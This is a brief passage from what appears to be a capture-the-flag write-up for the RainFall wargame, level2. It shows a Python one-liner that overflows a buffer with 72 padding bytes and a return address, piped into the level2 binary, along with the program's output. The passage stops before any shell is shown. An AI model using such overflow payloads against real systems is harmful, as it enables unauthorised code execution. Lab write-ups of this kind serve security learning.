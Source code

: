### Exploit

Unlike the previous two levels, there's no syscall in this executable. We therefore need to find a way to call and execute a shell. 


```
    level2@RainFall:~$ python -c 'print "a"*72 + "\xd4\x84\x04\x08"' | ./level2
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaԄ
    (0xbffff700)
```
